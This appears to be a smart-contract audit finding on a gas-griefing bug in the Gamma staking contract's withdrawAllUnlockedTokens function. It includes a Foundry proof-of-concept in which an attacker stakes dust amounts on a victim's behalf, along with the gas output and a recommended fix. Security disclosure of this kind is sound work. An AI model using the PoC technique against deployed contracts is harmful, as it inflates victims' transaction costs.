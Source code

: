 Slow Sand Monkey

medium

# Malicious actor can gas grief stakers withdrawing using `withdrawAllUnlockedTokens` due to excess size of retrieved `lockBals` when paging

## Summary
A malicious actor can gas grief stakers withdrawing using `withdrawAllUnlockedTokens` due to excessive page size used.

## Vulnerability Detail
https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L415-L426
```solidity
        while (limit < lockCount) {
            LockedBalance[] memory lockedBals = locklist.getLocks(msg.sender, page, lockCount); // Retrieves a page of locks for the user.
            for (uint256 i = 0; i < lockedBals.length; i++) {
                if (lockedBals[i].unlockTime != 0 && lockedBals[i].unlockTime < block.timestamp) {
                    totalUnlocked += lockedBals[i].amount; // Adds up the amount from all unlocked balances.
                    locklist.removeFromList(msg.sender, lockedBals[i].lockId); // Removes the lock from the list.
                }
            }

            limit += 10; // Moves to the next page of locks.
            page++;
        }
```
The root cause is in `withdrawAllUnlockedTokens` in `locklist.getLocks` (main logic above). It intends to retrieve all existing locks for the user in 'pages' (batches of some fixed size) and record the withdrawable amount the locks in these 'pages'. The issue is `lockCount` is passed in as the `limit` parameter which determines the size of each 'page'. Consequently, while the loop persists, we continually retrieve a 'page' sized to contain **all** initially existing locks and iterate over each one checking withdrawability. Withdrawable locks won't be reprocessed after being removed, but other locks will be continually retrieved in each iteration.

This can facilitate a significant gas cost (esp. on mainnet) which can be amplified by malicious actors creating a large number of small stakes on behalf of a staker calling `withdrawAllUnlockedTokens`, increasing `lockCount`.

<details>
<summary>PoC</summary>

```solidity
pragma solidity 0.8.23;

import "forge-std/Test.sol";
import "./Setup.sol";
import "forge-std/console.sol";

contract Playground is Test, Setup {
    function testGrief() public {
        vm.startPrank(user2);
        // withdraw without griefing
        lock.stake(100e18, user2, 0);
        lock.exitLateById(0);

        vm.warp(block.timestamp + lockPeriod[0] + 1);

        uint256 startGas = gasleft();
        lock.withdrawAllUnlockedToken();
        console.log("Gas used to withdraw normally:", startGas - gasleft());

        // withdraw with griefing
        lock.stake(100e18, user2, 0);
        lock.exitLateById(1);

        vm.warp(block.timestamp + lockPeriod[0] + 1);

        vm.stopPrank();

        // user1 (attacker) frontruns user2 when they try to withdraw all staked tokens
        vm.startPrank(user1);
        for (uint256 i = 0; i < 40; ++i)
            lock.stake(1, user2, 0);
        vm.stopPrank();

        vm.startPrank(user2);
        startGas = gasleft();
        lock.withdrawAllUnlockedToken();
        console.log("Gas used to withdraw griefed:", startGas - gasleft());
        vm.stopPrank();
    }
}
```
</details>

```terminal
[PASS] testGrief() (gas: 8001941)
Logs:
  Gas used to withdraw normally: 41342
  Gas used to withdraw griefed: 375358
```

## Impact
Gas griefing of stakers which withdraw using `withdrawAllUnlockedTokens`, possibly over multiple withdrawals if not noticed.

## Code Snippet
https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L415-L426

## Tool used

Manual Review

## Recommendation
Pass `limit=10` rather than `limit=lockCount` for `locklist.getLocks` in `withdrawAllUnlockedTokens`, or make it a parameter the caller can choose (`limit` will need to be increased the same amount per iteration). Also consider disallowing staking on behalf of others.
